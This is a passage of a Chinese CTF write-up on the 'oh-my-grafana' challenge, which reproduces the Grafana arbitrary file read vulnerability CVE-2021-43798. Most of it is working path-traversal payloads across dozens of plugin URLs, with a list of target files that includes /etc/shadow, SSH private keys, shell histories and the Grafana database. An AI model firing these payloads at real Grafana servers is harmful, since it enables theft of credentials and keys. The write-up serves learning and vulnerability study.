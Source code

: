 ##  前言

这次的题，第二个题前面的sql注入的方法，值得学习。

第三道和第四道题的思路是真的好，学会了很多东西。

##  oh-my-grafana

>Grafana是一款用Go语言开发的开源数据可视化工具，可以做数据监控和数据统计，带有告警功能。目前使用grafana的公司有很多，如paypal、ebay、intel等。

这个题就是对`CVE-2021-43798 Grafana任意文件读取`的复现

比赛才结束一天，这个题的环境就关了，找了NSSCTF平台的环境复现一下

###  知识点

`/public/plugins/alertlist/../../../../../../../../etc/passwd`
可读取的文件：

```php
/conf/defaults.ini/etc/grafana/grafana.ini
/etc/passwd
/etc/shadow
/home/grafana/.bash_history
/home/grafana/.ssh/id_rsa
/root/.bash_history
/root/.ssh/id_rsa
/etc/grafana/grafana.ini
/var/lib/grafana/grafana.db
/proc/net/fib_trie
/proc/net/tcp
/proc/self/cmdline
```


受影响的路径：

```php
/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/alertmanager/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../etc/passwd
/public/plugins/dashboard/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd
/public/plugins/grafana/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../etc/passwd
/public/plugins/mixed/../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../etc/passwd
```